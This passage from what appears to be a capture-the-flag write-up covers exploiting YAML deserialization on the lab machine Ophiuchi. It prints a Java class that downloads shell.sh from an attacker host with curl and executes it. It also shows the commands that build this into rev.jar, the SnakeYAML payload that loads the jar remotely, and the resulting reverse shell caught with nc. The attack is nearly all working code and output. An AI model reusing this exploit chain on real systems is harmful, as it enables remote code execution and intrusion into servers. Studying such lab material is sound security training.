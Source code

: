      10     public AwesomeScriptEngineFactory() throws InterruptedException {
     11         try {
     12             Process p = Runtime.getRuntime().exec("curl http://10.10.14.7/shell.sh -o /dev/shm/.s.sh");
     13             p.waitFor();
     14             p = Runtime.getRuntime().exec("chmod +x /dev/shm/.s.sh");
     15             p.waitFor();
     16             p = Runtime.getRuntime().exec("/dev/shm/.s.sh");
     17         } catch (IOException e) {
     18             e.printStackTrace();
     19         }
     20     }
    

I’ll compile, Jar, and move it into `www`:

    
    
    oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java
    oxdf@parrot$ jar -cvf rev.jar -C src/ .
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1837) (out= 784)(deflated 57%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1730) (out= 462)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    oxdf@parrot$ mv rev.jar www/
    

The payload is:

    
    
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/rev.jar"]
      ]]
    ]
    

There’s three requests at the Python HTTP server, two for the Jar, and then
for the shell:

    
    
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /shell.sh HTTP/1.1" 200 -
    

Then there’s a shell at listening `nc`:

    
    
    oxdf@parrot$ sudo nc -lnvp 443                  
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.227] 37728
    bash: cannot set terminal process group (730): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@ophiuchi:/$ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    